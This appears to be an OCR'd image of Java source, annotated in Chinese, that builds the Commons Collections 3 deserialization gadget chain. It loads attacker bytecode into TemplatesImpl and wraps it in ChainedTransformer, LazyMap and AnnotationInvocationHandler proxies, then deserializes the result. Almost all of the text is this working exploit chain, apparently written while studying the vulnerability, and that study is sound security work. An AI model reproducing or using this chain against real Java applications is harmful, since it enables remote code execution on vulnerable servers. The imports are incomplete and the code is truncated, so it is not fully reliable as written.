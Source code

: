 ```plain
import java.util.HashMap;
import java.util.Map;

public class CC3Test {
    public static void main(String[] args) throws Exception{

    TemplatesImpl templates = new TemplatesImpl();
    //_name赋值，否则代码return中止
    Class tc = templates.getClass();
    Field nameField = tc.getDeclaredField("_name");
    nameField.setAccessible(true);
    nameField.set(templates,"aaa");
    //private byte[][] _bytecodes = null;如果为null，报出异常；
    //同时满足这个loader.defineClass(_bytecodes[i]);
    //Class defineClass(final byte[] b) {
    //            return defineClass(null, b, 0, b.length);
    //        }
    Field bytecodeField = tc.getDeclaredField("_bytecodes");
    bytecodeField.setAccessible(true);
    //一维数组满足defineClass参数从而命令执行
    byte[] code = Files.readAllBytes(Paths.get("D://Tomcat/CC/target/classes/EXP/Demo.class"));
    //二维数组满足：
           // private byte[][] _bytecodes = null;如果为null，报出异常；
           //同时满足这个loader.defineClass(_bytecodes[i]);
    byte[][] codes = {code};
    bytecodeField.set(templates,codes);
//    避免_tfactory 为空指针而报错
//    TemplatesImpl.TransletClassLoader loader = (TemplatesImpl.TransletClassLoader)
//            AccessController.doPrivileged(new PrivilegedAction() {
//                public Object run() {
//                    return new TemplatesImpl.TransletClassLoader(ObjectFactory.findClassLoader(),_tfactory.getExternalExtensionsMap());
//                }
//            });
    Field tfactoryField = tc.getDeclaredField("_tfactory");
    tfactoryField.setAccessible(true);
    tfactoryField.set(templates,new TransformerFactoryImpl());

//    templates.newTransformer();
    Transformer[] Transformers = new Transformer[]{
            new ConstantTransformer(templates),
            new InvokerTransformer("newTransformer",null,null)
    };
    ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);
//        chainedTransformer.transform(1);
    HashMap<Object,Object> map = new HashMap<>();
    Map<Object,Object> Lazymap = LazyMap.decorate(map,chainedTransformer);


    Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class,Map.class);
    annotationInvocationhdlConstructor.setAccessible(true);
    InvocationHandler h = (InvocationHandler) annotationInvocationhdlConstructor.newInstance(Target.class,Lazymap);
//动态代理
    Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class},h);
    Object o = annotationInvocationhdlConstructor.newInstance(Override.class,mapProxy);

//    serialize(o);
    unserialize("ser.bin");
    }
```